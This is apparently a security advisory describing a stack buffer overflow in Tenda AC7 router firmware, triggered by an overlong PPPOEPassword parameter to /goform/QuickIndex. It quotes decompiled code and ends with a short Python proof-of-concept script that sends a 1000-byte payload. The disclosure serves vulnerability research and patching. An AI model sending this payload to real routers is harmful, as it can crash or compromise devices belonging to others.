 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The Tenda  AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `ppppwd` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `decode_pwd` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `decodePwd`, the statement: 

```c
void __cdecl decodePwd(char *srcStr, char *dstStr)
{
  char *srcStra; // [sp+8h] [+8h]
  char *dstStra; // [sp+Ch] [+Ch]

  srcStra = srcStr;
  dstStra = dstStr;
  if ( srcStr && dstStr )
  {
    while ( *srcStra )
    {
      if ( *srcStra == 92 )
        ++srcStra;
      *dstStra++ = *srcStra++;
    }
    *dstStra = 0;
  }
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `decode_pwd` array, triggering this security vulnerability.

![image-20240313222520157](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222520157.png)

![image-20240313222425867](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222425867.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318155045408](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318155045408.png)
